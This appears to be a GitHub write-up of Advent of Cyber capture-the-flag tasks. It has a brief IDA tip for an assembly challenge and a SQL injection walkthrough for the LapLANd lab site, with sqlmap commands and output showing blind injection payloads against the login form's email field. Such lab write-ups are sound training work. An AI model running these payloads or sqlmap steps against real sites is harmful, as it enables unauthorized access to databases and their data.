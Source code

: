 ```
McSkidy has been faring on well so far with assembly - they got some inside knowledge that the christmas monster is weaponizing if statements. Can they get ahead of the curve?

These programs have been compiled to be executed on Linux x86-64 systems.
The questions below relate to the if2 binary.
```
READ [this](https://docs.google.com/document/d/1cIHd_YQ_PHhkUPMrEDWAIfQFb9M9ge3OFr22HHaHQOU/edit)
sry but im so lazy to write this one, the tips is u use IDA and set a break after the if statement and point to different ```local_Xh```

# Day 23 : LapLANd (SQL Injection) 
```
Santa’s been inundated with Facebook messages containing Christmas wishlists, so Elf Jr. has taken an online course in developing a North Pole-exclusive social network, LapLANd! Unfortunately, he had to cut a few corners on security to complete the site in time for Christmas and now there are rumours spreading through the workshop about Santa! Can you gain access to LapLANd and find out the truth once and for all?
```
READ [this](https://docs.google.com/document/d/15XH_T1o6FLvnV19_JnXdlG2A8lj2QtepXMtVQ32QXk0/edit)

## Which field is SQL injectable? Use the input name used in the HTML code.
we gonna use sqlmap with ```-r``` which is REQUESTFILE -> Load HTTP request from a file. To get the request, we run Burpsuite and intercept the post request when you tryo to login the web app. Copy the reqest and put it in a .txt:
```console
kali@kali:~$ mkdir day23 && cd day23
kali@kali:~/day23$ nano login.txt # put the content of the post request in this file
kali@kali:~$ sqlmap -r day23/login.txt --dbs --batch # run sqlmap --dbs is Enumerate DBMS databases
OST parameter 'XXXXXX' is a false positive
POST parameter 'XXXXXXX' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 434 HTTP(s) requests:
---
Parameter: log_email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: log_email=gu2@test1.com' AND 2264=2264 AND 'WCZD'='WCZD&log_password=test123&login_button=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=gu2@test1.com' AND (SELECT 4668 FROM (SELECT(SLEEP(5)))sjKy) AND 'zSeO'='zSeO&log_password=test123&login_button=Login
---
[22:51:27] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[22:51:27] [INFO] fetching database names
[22:51:27] [INFO] fetching number of databases
[22:51:27] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:51:27] [INFO] retrieved: 6
[22:51:28] [INFO] retrieved: information_schema
[22:51:37] [INFO] retrieved: mysql
[22:51:39] [INFO] retrieved: performance_schema
[22:51:48] [INFO] retrieved: phpmyadmin
[22:51:54] [INFO] retrieved: social
[22:51:57] [INFO] retrieved: sys
available databases [6]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
```